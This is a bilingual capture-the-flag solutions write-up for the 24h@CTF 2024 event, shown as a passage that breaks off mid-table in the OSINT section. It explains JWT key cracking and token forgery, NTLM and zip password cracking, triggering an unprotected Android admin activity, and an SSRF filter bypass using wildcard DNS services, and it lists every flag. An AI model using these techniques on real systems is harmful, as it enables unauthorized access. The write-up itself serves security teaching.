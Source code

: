```yaml
---
title: 24@CTF 2024 Solutions
date: 2024-04-07
authors: polycyber
tags: [solutions]
---
```


Solutions des challenges offerts au 24h@CTF
<!-- truncate -->


## Crypto
<details>
  <summary>Doors 1 & 2</summary>

**Solution FR**

Pour la première partie, les participants doivent se connecter en tant qu'invité. Cela leur donne un cookie contenant un JWT. Ensuite, ils doivent décoder le JWT à l'aide d'un outil tel que [celui-ci](https://jwt.io).
Le JWT contient un champ appelé flag qui contient le premier flag.  

Pour la deuxième partie, le participant doit effectuer une attaque par force brute sur la clé utilisée pour générer le JWT. Cela peut être fait via John The Ripper:
`john jwt.txt --wordlist=rockyou.txt`  

La clé de signature est `gyarados500`. Une fois de plus, en utilisant jwt.io, le participant peut saisir la clé de signature et modifier le jeton pour
définir `is_admin` sur true, puis visiter la page /admin.html pour obtenir le flag.

---

**Solution EN**

For the first part, the participants needs to login as a guest. That gives them a cookie containing a JWT. They then need to decode the JWT using a tool like [this one](https://jwt.io).
The JWT contains a field named `flag` that contains the first flag.

For the second part, the participant needs to bruteforce the key used to generate the jwt. This can be done via John The Ripper:
`john jwt.txt --wordlist=rockyou.txt`

The signing key is `gyarados500`. Once again using [jwt.io](https://jwt.io), the participant can input the signing key and modify the token to set `is_admin` to `true` and then visit the `/admin.html` page to get the flag.

---

**Flag**s

1. `polycyber{JwtAreN0t3ncrypt3d}`

2. `polycyber{WhyW0uldYouUseAPa$$wordAsAKey?}` 

---
</details>

<details>
  <summary>Illumination</summary>

**Solution FR**

Il faut d'abord remplacer les nombres en hexadécimal par leur correspondance selon le code ASCII. On obtient alors une phrase qui contient à nouveau des caractères spéciaux. Ceux-ci forment un message encodé en base64. Lorsque cette chaîne de caractères en base64 est décodée, on obtient le flag.

---

**Solution EN**

You first need to replace the numbers in hexadecimal with their corresponding ASCII codes. This will give you a sentence that contains special characters again. These special characters form a message encoded in base64. When you decode this base64 string, you'll get the flag.

---

**Flag**

`polycyber{b4r5_c4n7_h0ld_my_m1nd}`

---
</details>

<details>
  <summary>Interception</summary>

**Solution FR**

Voici deux solutions de résoudre le défi.

Tout d'abord, il est possible de placer le hash dans un fichier `hash.txt` et d'utiliser hashcat avec le dictionnaire rockyou.txt pour retrouver le mot de passe avec la commande suivante: `hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt`. L'option `-m` permet d'indiquer à hashcat que le hash fourni est de type NTLM.

Une autre façon est d'utiliser des solutions en ligne qui ont déjà calculer le hash, comme le site [hashes.com](https://hashes.com) par exemple.

---

**Solution EN**

Here are two solutions to solve the challenge.

Firstly, you can place the hash in a file `hash.txt` and use hashcat with the rockyou.txt dictionary to find the password with the following command: `hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt`. The `-m` option specifies to hashcat that the provided hash is of type NTLM.

Another way is to use online solutions that have already calculated the hash, such as the website [hashes.com](https://hashes.com), for example.

---

**Flag**

`polycyber{michikitolindo}`

---
</details>

## Forensics

<details>
  <summary>The Victim 1</summary>

**Solution FR**

Il est possible de voir que le fichier n'ouvre pas avec un lecteur de PDF. En roulant "file" sur le fichier, il est possible de voir que c'est en fait un VDI. Après avoir remis l'extension originale et à l'aide d'Arsenal Image Mounter, il est possible d'ouvrir le fichier et de consulter le système de fichier. 
Il est ensuite possible de récuperer le fichier flag.txt, puisque celui-ci est à la racine du système de fichier de la VM.

---

**Solution EN**

It is possible to see that the file does not open with a PDF reader. By running "file" on the file, it can be seen that it is actually a VDI. After changing back the file extension and by using Arsenal Image Mounter, it is possible to open the file and examine the file system.
It is then possible to retrieve the file flag.txt since it is at the root of the VM's file system.

---

**Flag**

`polycyber{THe_miS5ION_R3@lLY_stARTs_HErE}`

---
</details>

<details>
  <summary>The Victim 2</summary>

**Solution FR**

On sait que le directeur de la prison aiment bien les photos de prisons. S'il l'on va dans le dossier Pictures de l'utilisateur director, il est possible de voir qu'il est plein de photos de prisons. Il risque d'avoir des problèmes de permissions pour accéder au contenu du dossier. Pour régler ce problème, il faut ouvrir le disque en mode "Write temporary" puis changer les permissions du dossier dans le disque monté.

En exécutant exiftool sur toutes les photos de prison extraites du disque, puis en faisant un grep sur le polycyber, il est alors possible de trouver le flag. (Il est possible d'exécuter exiftool sur le contenu d'un dossier avec l'option -r).

---

**Solution EN**

We know that the prison director enjoys prison photos. If we go to the Pictures folder of the director's user, it is possible to see that it is full of prison photos. There may be permission issues while trying to access the folder's content. To resolve this issue, it is necessary to open the disk in 'Write temporary' mode and then change the permissions of the folder on the mounted disk.

By running exiftool on all the prison photos extracted from the disk, and then using grep for "polycyber," it is then possible to find the flag. (It is possible to run exiftool on the contents of a folder with the -r option).

---

**Flag**

`polycyber{Dylan_Perry}`


---
</details>

<details>
  <summary>The Victim 3</summary>

**Solution FR**

Puisque l'on sait que l'on cherche des infos sur Dylan Perry. La description du défi parle aussi de la pointe de l'iceberg. Il s'avère que dans le dossier Public/Pictures contiennent plusieurs photos d'iceberg.

Les images sont toutes nommées par deux lettres séparée d'un trait de soulignement. Puisque l'on cherche des informations sur Dylan Perry, et qu'une des images est nommées d_p.png, il est possible de venir à la conclusion que c'est la bonne image à analyser. Elle est aussi plus grosse que les autres images présentes dans le dossier.

Avec un outil comme OpenStego, il est possible d'extraire un fichier zip de l'image. En décompressant le zip, on obtient 3 fichier: le flag, le fichier list.txt et une deuxième archive nommée Dylan_Perry.zip.

---

**Solution EN**

Since we know that we are looking for information about Dylan Perry, and the challenge description also mentions the tip of the iceberg, it turns out that the Public/Pictures folder contains several photos of icebergs.

The images are all named with two letters separated by an underscore. Since we are seeking information about Dylan Perry, and one of the images is named d_p.png, it is possible to conclude that this is the correct image to analyze. It is also larger than the other images in the folder.

Using a tool like OpenStego, it is possible to extract a zip file from the image. By decompressing the zip, you get three files: the flag, the file list.txt, and a second archive named Dylan_Perry.zip

---

**Flag**

`polycyber{One_mORE_5TEp_BeFOrE_Th3_eNd}`

---
</details>

<details>
  <summary>The Victim 4</summary>

**Solution FR**

Le principe du dernier défi est de simplement cracker le mot de passe d'une archive zip à l'aide d'une attaque par dictionnaire. La liste de mot de passe est fournie lors de la complétion du défi 3.
1. Convertir le zip en un format crackable pour john avec: zip2john Dylan_Perry.zip > zip.hash
2. Le fichier venait avec un liste de mot de passe, un simple: john --wordlist=list.txt zip.hash devrait être suffisant pour trouver le mot de passe
3. Le flag se trouve directement dans l'archive Dylan_Perry.zip

---

**Solution EN**

The principle of the last challenge is simply to crack the password of a zip archive using a dictionary attack. The password list is provided when completing challenge 3.

1. Convert the zip file into a format crackable by John with: zip2john Dylan_Perry.zip > zip.hash
2. Since the file comes with a password list, a simple: john --wordlist=list.txt zip.hash should be sufficient to find the password.
3. The flag is directly inside the Dylan_Perry.zip archive.

---

**Flag**

`polycyber{4ccE$s_To_d47a_Gr4NT3D}`


---
</details>

## Misc

<details>
  <summary>Cafeteria Meals 2</summary>


**Solution FR**

Note: Il est important de lire Cafeteria Meals 1 d'abord pour comprendre.

1. Comprendre que /guid est une liste de GUID
2. Rechercher en quoi consiste une version non sécuritaire d'un GUID, comme fortement suggéré par la description du défi. On trouve sur Google qu'il existe 5 versions d'un GUID, soit (0,1,2,3,4) et que la version 1 n'est pas sécuritaire.
3. Utiliser une expression régulière pour trouver le GUID version 1 dans la liste.
4. Soumettre ce dernier dans le formulaire de la page d'accueil pour obtenir le deuxième flag.

---

**Solution EN**

Note: It's important to read Cafeteria Meals 1 first to understand.

1. Understand that /guid is a list of GUIDs
2. Find out what a non-secure version of a GUID consists of, as strongly suggested by the challenge description. Google and you'll find that there are 5 versions of a GUID (0,1,2,3,4), and that version 1 is unsafe.
3. Use a regular expression to find the GUID version 1 in the list.
4. Submit it in the form on the home page to obtain the second flag.

---

**Flag**

`polycyber{in53cur3_guid_v3r51on_on3_bdf23f1a}`

---
</details>

<details>
  <summary>Perl meets Brain</summary>

**Solution FR**

1. Interpréter le code avec Perl. Ceci est fortement suggéré par la description du défi. Perl est installé par défaut sur plusieurs distributions Linux.
2. Interpéter le résultat avec un interpréteur Brainfuck.

Pour les curieux, le code Perl a été généré grâce à un sympathique outil du nom de perlfuck. D'où l'idée "Perl rencontre Brain".

[perlfuck repo](https://github.com/Dwarf1er/perlfuck)

---

**Solution EN**

1. Interpret the code with Perl. This is strongly suggested by the challenge description. Perl is installed by default on many Linux distributions.
2. Interpret the result with a Brainfuck interpreter.

For the curious people out there, the Perl code was generated using a nice tool called perlfuck. Hence the "Perl meets Brain" idea.

[perlfuck repo](https://github.com/Dwarf1er/perlfuck)

---

**Flag**

`polycyber{who_kn3w_br41nfuck_w45_n0t_al0n3_d32c1afa22}`

---
</details>


<details>
  <summary>Read the Rules</summary>

**Solution FR**

Si on lit réellement les règles, on remarque que l'avant-avant dernière ligne des règles explique comment former le flag:

`Il est obligatoire de placer "rules" dans les accolades du format proposé plus bas pour valider le premier défi.`

Le format proposé plus bas est `^polycyber{.+}$`, donc on obtient `polycyber{rules}`.

---

**Solution EN**

If one actually reads the rules, it is noticed that the second-to-last line of the rules explains how to form the flag:

`It is mandatory to place "rules" inside the curly braces of the format proposed below to validate the first challenge.`

The proposed format below is `^polycyber{.+}$`, so the result is `polycyber{rules}`.

---

**Flag**

`polycyber{rules}` ou/or `polycyber{"rules"}`

---
</details>


## Mobile

<details>
  <summary>Hive Hex Solitary Timer</summary>

**Solution FR**

Il y a probablement moyen de le faire en désobfusquant le code Dart, mais ce n'est pas l'approche préconisée.
Si on assume qu'on ne tente pas de désobfusquer le code, voici les étapes:

1. Télécharger l'application sur un téléphone Android et autoriser son installation.
2. Se configurer un setup pour voir les communications vers l'externe. L'application est déjà configurée pour accepter les certificats utilisateurs et l'inspection cleartext au besoin. Si BurpSuite ne fonctionne pas, alors PCAPdroid va fonctionner. Installer PCAPdroid sur son téléphone.
3. Lancer le compteur sur l'application (le fichier .dart nous indique que ça peut être intéressant) tout en activant une capture avec PCAPdroid.
4. Constater que des requêtes http:// sont faites vers ch0ufleur.dev avec une séquence hexadécimale.
5. Avec le code Dart, on comprend que le code hexadécimal est la valeur ajoutée à l'URL et que cette valeur est construite à l'aide d'autres fonctions du même fichier.
6. Toujours en inspectant les communications, on comprend que l'adresse URL masquée dans le fichier Dart est celle de getAdress(), soit : api.ipify.org
7. Avec de la recherche on comprend que cela permet d'obtenir l'IP publique du téléphone.
8. Ensuite il faut comprendre le XOR entre le flag et la séquence \[temps restant\]+IP+\[temps restant\]+IP+\[temps restant\]+IP+\[temps restant\]+IP.
9. On peut faire l'inverse en utilisant fromCharCode et XOR dans Cyberchef en entrant la séquence en UTF-8 dans le key de XOR. On obtient le flag.

---

**Solution EN**

There is probably a way to do this by deobfuscating the Dart code, but this is not the recommended approach.
If we assume that we're not trying to deobfuscate the code, here are the steps:

1. Download the application on an Android phone and authorize its installation.
2. Configure a setup to view external communications. The application is already configured to accept user certificates and cleartext inspection as required. If BurpSuite doesn't work, then PCAPdroid will. Install PCAPdroid on your phone.
3. Run the timer on the application (the .dart file indicates that this could be interesting) while activating a capture with PCAPdroid.
4. Note that http:// requests are made to ch0ufleur.dev with a hexadecimal sequence.
5. Using the Dart code, we understand that the hexadecimal code is the value added to the URL and that this value is constructed using other functions in the same file.
6. Still inspecting communications, we understand that the URL address hidden in the Dart file is that of getAdress(), i.e.: api.ipify.org
7. With a little research, we understand that this allows us to obtain the phone's public IP.
8. Next, you need to understand the XOR between the flag and the sequence \[remaining time]+IP+[remaining time]+IP+[remaining time]+IP+[remaining time]+IP.
9. You can do the opposite using fromCharCode and XOR in Cyberchef, entering the UTF-8 sequence in the XOR key. The result is the flag.

---

**Flag**

`polycyber{x0r_and_4pk_mix}`

---
</details>


<details>
  <summary>Ungoing Cafeteria Development</summary>

**Solution FR**

*Le fichier .apk final a été passé dans un obfuscateur et n'est pas dispo dans ce repo*

Il y a deux façons principales de le résoudre.

La première est de décompiler le apk et chercher dans le code les classes "custom". DrawingView.kt montre différentes actions DrawRect avec des coordonnées.
Un reverse engineer motivé peut se faire un petit script qui parse les coordonnées et qui reproduit le dessin sur un plan cartésien pour dessiner le flag, ou encore exécuter le code dans un autre contexte.

La deuxième façon est la façon prévue:
1. Constater la présence d'une activité Admin dans le AndroidManifest.xml
2. Installer l'application
3. Connecter adb 
    - adb devices
    - adb shell
4. Une fois dans le téléphone, on peut déclencher l'activité non protégée directement en ligne de commande pour accéder à l'interface d'administration
5. \# am start -n com.example.cafeteriaapp/.AdminActivity
6. La page admin s'ouvre sur l'application et révèle le flag dessiné avec des rectangles.

NOTE: Android version 29 ou moins doit être utilisé. Ceci est indiqué par la description et pourrait forcer le participant à installer un émulateur avec Android Studio qui cible la bonne version. Il s'agit alors d'une étape de plus à prendre en compte.


---

**Solution EN**

*The final .apk file has gone through an obfuscator and is not present in this repo*

There are two main ways of solving this problem.

The first is to decompile the apk and search the code for custom classes. DrawingView.kt shows various DrawRect actions with coordinates.
A motivated reverse engineer can create a small script that parses the coordinates and reproduces the drawing on a Cartesian plane to draw the flag, or execute the code in another context.

The second way is the intended way:
1. Check for the presence of an Admin activity in the AndroidManifest.xml file.
2. Install the application
3. Connect adb 
    - adb devices
    - adb shell
4. Once on the phone, you can trigger the unprotected activity directly from the command line to access the administrative interface
5. \# am start -n com.example.cafeteriaapp/.AdminActivity
6. The admin page opens on the application and reveals the flag drawn with rectangles.

NOTE: Android version 29 and under must be used. This is hinted by the challenge description and may force the participant to install an emulator with Android Studio, having the required version.


---

**Flag**

`polycyber{3HH7}`

---
</details>

## Networking

<details>
  <summary>Doorman 1, 2 & 3</summary>

**Solution FR**

#### Étudier le protocole

Pour commencer, vous devez d'abord ouvrir le fichier `.pcap` dans Wireshark pour analyser les données envoyées entre le client et le serveur. Nous pouvons voir une conversation entre 172.17.0.1 (semblant être un client) et 172.17.0.2 (semblant être un serveur) sur le port 8998.

Tout d'abord, l'utilisateur est accueilli avec un message TCP contenant: `\x00\x16\x12\x14KEY:c6131e45816ac6e6` (24 octets). Immédiatement après, le client répond.

Cela signifie que le client a compris que le message du serveur était probablement terminé. Si nous regardons le début du message, nous pouvons voir `\x00\x16`. Puisque `0x16 == 0x0016 == 22`, nous pouvons raisonnablement supposer que les deux premiers octets représentent la taille du message sans l'en-tête de 2 octets.

Pour récapituler, chaque message que nous envoyons devrait ressembler à (pseudocode):

```c
struct message {
    u16_t msg_len;
    u8_t msg[msg_len];
};
```

Le premier message a maintenant une séquence d'octets inconnue `\x12\x14`.
Le deuxième octet peut avoir son utilisation déduite puisque `\x14 == 20`, qui est la longueur du texte brut `KEY:...` après. Cependant, `\x12` semble inconnu.

Le deuxième message envoyé ressemble à: (sans l'en-tête de 2 octets)

```none
\x12\x16\x0a\x05admin\x12\x08\xb6rm6\xf6\x05\xb4\x82\x1a\x03198
```

À partir de cela, nous pouvons également voir beaucoup d'octets `\x12`. En effectuant des recherches en ligne avec des requêtes telles que "protocoles avec octet \x12", nous pouvons voir quelques résultats mentionnant protobuf.

Sur un éditeur en ligne tel que [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Fork('%5C%5Cn','%5C%5Cn',false)From_Hex('Auto')Protobuf_Decode('',false,true)&input=MTIxNDRiNDU1OTNhNjMzNjEzMzMxNjUzNDM1MzgzMTM2NjE2MzU2CjEyMTYwYTA1NjE2NDZkNjk2ZTEyMDhiNjcyNmQzNmY2MDViNDgyMWEwMzMxMzkzOA==), nous pouvons voir que les deux messages semblent être des messages Protobuf valides.

En analysant les types affichés sur Cyberchef, nous pouvons construire un protobuf de base pour les messages reçus:

```protobuf
message ResponseKey {
    string msg = 2;
}

message RequestLogin {
    string username = 1;
    string password = 2;
    string otp = 3;
}

message ActualMessage {
    RequestLogin login = 2;
}
```

#### Premier flag

Maintenant que nous savons que le serveur utilise Protobuf, nous pouvons essayer d'obtenir le premier flag.

Nous pouvons essayer de simuler une connexion, à travers la même requête envoyée par l'utilisateur, cependant, nous sommes informés que nos identifiants ne correspondent pas.

Cela signifie que le mot de passe est probablement chiffré, ce qui nécessiterait une clé, que le serveur nous a gentiment envoyée au début.

En effectuant un simple XOR avec [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'c6131e45816ac6e6'%7D,'Standard',false)&input=YjYgNzIgNmQgMzYgZjYgMDUgYjQgODI), nous pouvons voir que le mot de passe est ... `password`.

Ensuite vient le `otp`. Cependant, en expérimentant avec celui-ci, nous pouvons voir qu'il s'agit du premier octet de la clé.

Avec cela, nous pouvons construire un message de connexion valide.

Après nous être connectés, nous pouvons décoder le premier message envoyé par le client:

```protobuf
message RequestDoor {
    int32 id = 1;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
}
```

Notez que protobuf attribue par défaut des valeurs vides à 0 (la plupart du temps).

Nous pouvons ensuite essayer de forcer d'autres champs, comme le champ = 2 dans la requête, et nous pouvons voir que la porte s'ouvre et nous obtenons le flag.

Cela se produit parce que le champ = 2 est `false` par défaut, ce qui signifie de ne pas ouvrir la porte.

#### Deuxième flag

Pour le deuxième flag, nous pouvons regarder le deuxième message envoyé.

Selon CyberChef, la requête ressemble à quelque chose comme:

```json
{
    "1": 2,
    "4": {
        "1": "log_0.txt",
        "2": 0
    }
}
```

Maintenant, si nous construisons sur ce que nous savions auparavant, cela pourrait être simplifié à:

```protobuf
message RequestWithFileName {
    string fileName = 1;
    int32 something = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
}
```

La sortie du serveur après cette demande semble être le contenu du fichier. Cependant, en essayant de faire une traversée de chemin ou autre chose à la place de `log_0.txt`, cela semble ne pas fonctionner, le serveur répondant que les fichiers ne sont pas accessibles.

Cependant, en changeant la valeur du deuxième champ (`something`) à 1, nous pouvons voir une liste de répertoire, montrant le fichier `flag.txt`.

Maintenant, en essayant de lire le contenu de ce fichier révèle notre deuxième flag.

#### Troisième flag

Le flag précédent a révélé un fichier nommé `flag_admin.txt`, cependant, essayer d'y accéder ne semble pas fonctionner. Si nous regardons la prochaine demande émise dans le pcap, nous pouvons voir qu'elle ressemble à quelque chose comme cela:

```json
{
    "1": 3,
    "5": {
        "1": "Subject 2217429 has exited his cell",
        "2": "cams.24hctf"
    }
}
```

De plus, lors de la réception de la demande, le serveur effectue une demande à 172.17.0.3, qui est probablement l'adresse résolue de `cams.24hctf`.

Si nous essayons de réassembler cela en langage protobuf réel, nous pouvons essayer de déduire que cela ressemble à ceci:

```protobuf
message RequestWithHost {
    string data = 1;
    string dnsName = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
    RequestWithHost host = 5;
}
```

En essayant l'hôte où se trouve le défi, le serveur répond avec `"\000\026\022\024KEY:90488afdc37624e0\000 \010\001\022\034Invalid password or username"`. Cela semble très familier, et le serveur nous envoie essentiellement la sortie de sa requête.
drapeau
Maintenant, nous avons un SSRF :). Il est temps de l'exploiter. Ce qui est amusant, c'est que les serveurs ont généralement confiance en localhost, et donc cela pourrait nous mener à lire le `flag_admin.txt` précédent.

Le problème est que essayer `localhost` et `127.0.0.1` ne fonctionne pas. Cela nous donne quelques erreurs:

- `Pas de localhost !!!`
- `Le nom d'hôte ne correspond pas à Regex: ^[0-9A-Za-z\.]+\.[A-Za-z]+$`

Un truc amusant que nous pouvons essayer est de coder différemment l'adresse IP, cependant cela échouerait également car l'expression régulière attend à ce que la fin soit une chaîne de caractères.

Le serveur attend essentiellement n'importe quel nom DNS valide, tant qu'il ne contient pas la chaîne `localhost` et se termine par une chaîne alphabétique (pour le TLD).

Cette protection peut cependant être contournée, car le DNS est un service tiers, faisant correspondre des noms à des adresses IP. Qui dit qu'il ne pourrait pas y avoir un nom qui se résout en 127.0.0.1?

La recherche en ligne de services qui redirigent vers des adresses IP personnalisées semble nous amener vers des services comme https://sslip.io/ et https://nip.io/.

En utilisant l'un de ces services avec localhost, nous pouvons contourner l'authentification et obtenir le `flag_admin.txt`.



---

**Solution EN**

#### Reversing the protocol

To get started, you must first open the `.pcap` file in Wireshark to analyze the data being sent between the client and server.
We can see a conversation between 172.17.0.1 (seems like a client) and 172.17.0.2 (seems like a server) on port 8998.

Firstly, the user is greeted with a TCP message with the contents: `\x00\x16\x12\x14KEY:c6131e45816ac6e6` (24 bytes). Immediately after, the client responds.

This means that the client understood the server's message was probably over. If we look at the beginning of the message, we can see `\x00\x16`.
Since `0x16 == 0x0016 == 22`, we can safely assume that the first two bytes represent the size of the message without the 2 byte header.

So to recap, each message we send should look like (pseudocode):

```c
struct message {
    u16_t msg_len;
    u8_t msg[msg_len];
};
```

The first message now has an unknown `\x12\x14` byte sequence.
The second byte can have its use deduced since `\x14 == 20` which is the length of the plaintext `KEY:...` after. However, `\x12` seems unknown.

The second message sent looks like: (without 2 byte header)

```none
\x12\x16\x0a\x05admin\x12\x08\xb6rm6\xf6\x05\xb4\x82\x1a\x03198
```

From this, we can also see a lot of `\x12` bytes. By looking online with queries like "protocols with \x12 byte", we can see a few results mentioning protobuf.

On an online editor such as [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Fork('%5C%5Cn','%5C%5Cn',false)From_Hex('Auto')Protobuf_Decode('',false,true)&input=MTIxNDRiNDU1OTNhNjMzNjMxMzMzMTY1MzQzNTM4MzEzNjYxNjMzNjY1MzYKMTIxNjBhMDU2MTY0NmQ2OTZlMTIwOGI2NzI2ZDM2ZjYwNWI0ODIxYTAzMzEzOTM4), we can see that both messages seem to be valid Protobuf messages.

By analyzing the types shown on Cyberchef, we can construct a basic protobuf for received messages:

```protobuf
message ResponseKey {
    string msg = 2;
}

message RequestLogin {
    string username = 1;
    string password = 2;
    string otp = 3;
}

message ActualMessage {
    RequestLogin login = 2;
}
```

#### First flag

Now that we know the server deals in Protobuf, we can try and get the first flag.

We can try to simulate a login, through the same request sent by the user, however, we are notified that our credentials do not match.

This means the password is probably encrypted, which would call for a key, which the server has kindly sent to us at first.

By performing a simple XOR with [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'c6131e45816ac6e6'%7D,'Standard',false)&input=YjYgNzIgNmQgMzYgZjYgMDUgYjQgODI), we can see that the password is ... `password`.

Next is the `otp`. However, by experimenting with it, we can see it is the first byte of the key.

With this, we can construct a valid login message.

After we are logged in, we can decode the first message sent by the client:

```protobuf
message RequestDoor {
    int32 id = 1;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
}
```

Note that protobuf defaults its empty values to 0 (most of the time).

We can then try to brute force other fields, like the field = 2 in the request, and we can see that the door opens and we get the flag.

This happens because the field = 2 is `false` by default, meaning to not open the door.

#### Second flag

For the second flag, we can look at the second message being sent.

According to CyberChef, the request looks something like:

```json
{
    "1": 2,
    "4": {
        "1": "log_0.txt",
        "2": 0
    }
}
```

Now if we build on top of what we knew before, it could be simplified to:

```protobuf
message RequestWithFileName {
    string fileName = 1;
    int32 something = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
}
```

The output from the server after this request seems to be the file's content. However, by trying to do a path traversal or anything else instead of `log_0.txt` seems to not work, with the server answering that the files are not accessible.

However, by changing the value of the second field (`something`), to 1, we can see a directory listing, showing the file `flag.txt`.

Now trying to read this file's contents reveals our second flag.

#### Third flag

The previous flag revealed a file named `flag_admin.txt`, however, trying to access it does not seem to work. If we look at the next request issued in the pcap, we can see it looks something like this:

```json
{
    "1": 3,
    "5": {
        "1": "Subject 2217429 has exited his cell",
        "2": "cams.24hctf"
    }
}
```

Furthermore, upon receiving the request, the server makes a request to 172.17.0.3, which is probably the resolved address of `cams.24hctf`.

If we try to reassemble this into actual protobuf language, we can try to deduce it looks like this:

```protobuf
message RequestWithHost {
    string data = 1;
    string dnsName = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
    RequestWithHost host = 5;
}
```

Trying the host where the challenge is hosted, the server replies with `"\000\026\022\024KEY:90488afdc37624e0\000 \010\001\022\034Invalid password or username"`. This seems awfully familiar, and the server is basically sending us the output from its request.

We now have an SSRF :). Time to exploit it. What's fun about this is that servers usually trust localhost, and so it could lead our way to reading the `flag_admin.txt` from before.

The issue is trying `localhost` and `127.0.0.1` does not work. It gives us a few errors:

- `No localhost!!!`
- `Hostname does not match Regex: ^[0-9A-Za-z\.]+\.[A-Za-z]+$`

A funky trick we can try is encoding the IP address differently, however this would also fail as the regex expects the ending to be a string.

The server is basically expecting any valid DNS name, as long as it does not contain the string `localhost` and ends with an alphabetical string (for the TLD).

This protection though can be bypassed, as DNS is a third party service, mapping names to IP addresses. Who says there couldn't be a name that resolves to 127.0.0.1?

Searching online for services that redirect to custom IPs seems to bring us to services like https://sslip.io/> and https://nip.io/.

By using one of these with localhost, we can bypass the authentication and get the `flag_admin.txt`.

---

**Flag**s

1. `polycyber{pR0t0b00f_15_c0oL_RiGh7?}`

2. `polycyber{i_W0nd_er_wh47s_nXt}`

3. `polycyber{inc3pt_10n_937hnfuy3t7dt35}`

---
</details>

## OSINT

<details>
  <summary>SteganOsint 1</summary>

**Solution FR**

En cherchant sur Google les mots "croisement saint ambroise saint augustin maison" on tombe sur un article de la BAnQ intitulé ["Bonheur d’occasion : le reflet de la vie ouvrière d’autrefois"](https://www.banq.qc.ca/explorer/articles/bonheur-doccasion-le-reflet-de-la-vie-ouvriere-dautrefois/). Ce titre nous rappelle l'indice de l'énoncé: "La maison du bonheur ?". Cet article parle du livre [*Bonheur d'occasion*](https://fr.wikipedia.org/wiki/Bonheur_d'occasion_(roman)) de Gabrielle Roy. En se renseignant sur ce roman on apprend que c'est la maison de Jean Lévesque, le personnage principal du livre.

L'image est une partie du tableau de Miyuki Tanobe, [*La maison de Jean Lévesque*](https://www.galeriecosner.com/fr/catalogue/miyuki-tanobe/8608-la-maison-de-jean-levesque.html).


---

**Solution EN**

By searching on Google for the words "saint ambroise saint augustin maison" we come across an article from the BAnQ entitled ["Bonheur d’occasion : le reflet de la vie ouvrière d’autrefois"](https://www.banq.qc.ca/explorer/articles/bonheur-doccasion-le-reflet-de-la-vie-ouvriere-dautrefois/). This title reminds us of the clue in the statement: "La maison du bonheur ?". This article talks about the book [*Bonheur d'occasion*](https://fr.wikipedia.org/wiki/Bonheur_d'occasion_(roman)) by Gabrielle Roy. By inquiring about this novel we learn that it is the house of Jean Lévesque, the main character of the book.

The image is a part of the painting by Miyuki Tanobe, [*La maison de Jean Lévesque*](https://www.galeriecosner.com/fr/catalogue/miyuki-tanobe/8608-la-maison-de-jean-levesque.html).

---

**Flag**

`polycyber{jean_lévesque}`

---
</details>


<details>
  <summary>SteganOsint 2</summary>

**Solution FR**

En cherchant les endroits où ont été prises les photos on peut remarquer quelque chose: elles sont prises dans des avenues numérotées de Montréal.

En trouvant dans quelle avenue est prise chaque photo on obtient la suite de numéros suivante:
18, 5, 14, 3, 15, 14, 20, 18, 5, 1, 21, 13, 9, 12, 12, 5, 21, 14, 16, 12, 1, 3, 5, 10, 5, 1, 14, 16, 1, 21, 12, 18, 9, 15, 16, 5, 12, 12, 5

En remarquant que tout les nombres sont inférieurs à 26 on peut les convertir en lettre (avec [CyberChef](https://gchq.github.io/CyberChef/#recipe=A1Z26_Cipher_Decode('Space')&input=MTgsIDUsIDE0LCAzLCAxNSwgMTQsIDIwLCAxOCwgNSwgMSwgMjEsIDEzLCA5LCAxMiwgMTIsIDUsIDIxLCAxNCwgMTYsIDEyLCAxLCAzLCA1LCAxMCwgNSwgMSwgMTQsIDE2LCAxLCAyMSwgMTIsIDE4LCA5LCAxNSwgMTYsIDUsIDEyLCAxMiwgNQ) par exemple) et on trouve (en rajoutant les espaces):

        rencontre au mille un place jean paul riopelle

Avec une recherche Google on trouve que le 1001 Place Jean-Paul Riopelle correspond à l'adresse du Palais des Congrès.

Pour trouver les lieux des photos:

| Avenue | Photos                   | Solution possible                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|--------|--------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1ère   | 10, 21, 26, 29           | On peut lire sur la photo qu'il s'agit de l'école Saint Marc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 3ème   | 4, 22                    | Recherche par image sur Google et on trouve [cette page](https://ville.montreal.qc.ca/murales/detail/167) qui nous donne l'emplacement.                            |
| 5ème   | 2, 9, 16, 23, 25, 36, 39 | On peut lire le nom d'un magasin "La shop techno" et une recherche Google nous donne l'adresse                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 9ème   | 13, 33                   | Recherche par image sur Google qui nous dirige vers [ce site](https://steemit.com/graffiti/@heroldius/street-art-244-monosourcil-montreal) sur lequel on trouve l'emplacement.                                                                       |
